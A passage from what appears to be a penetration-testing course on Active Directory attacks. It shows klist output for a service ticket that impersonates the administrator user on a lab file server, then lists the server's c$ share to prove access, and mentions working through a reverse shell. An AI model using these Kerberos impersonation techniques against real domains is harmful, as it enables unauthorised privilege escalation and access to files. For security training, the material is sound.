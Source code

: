 The output indicates that a TGS as the _administrator_ user for the CIFS service on file01 has been generated and injected into memory.

We can verify this with the klist command as shown in Listing 41.

```
PS C:\Windows\system32> klist
klist

Current LogonId is 0:0x3e7

Cached Tickets: (1)

#0>     Client: administrator @ EVIL.COM
        Server: cifs/file01 @ EVIL.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize 
        Start Time: 6/26/2020 1:50:39 (local)
        End Time:   6/26/2020 11:50:38 (local)
        Renew Time: 7/3/2020 1:50:38 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0 
        Kdc Called: 
```

> Listing 41 - Displaying the requested TGS

We have successfully obtained a service ticket for the CIFS service on file01 as the _administrator_ domain admin user.

Note that when working through a reverse shell, the generated TGS is occasionally lost and must be requested again.

To prove that the ticket works, we can simply list the directory of the c$ share on file01:

```
PS C:\Windows\system32> ls \\file01\c$
ls \\file01\c$

    Directory: \\file01\c$

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        6/24/2020   1:07 AM                PerfLogs                                                              
d-r---        6/24/2020   7:24 AM                Program Files                                                         
d-----        6/24/2020   7:21 AM                Program Files (x86)                                                   
d-r---        6/24/2020   1:48 AM                Users                                                                 
d-----        6/24/2020   1:22 AM                Windows  
```

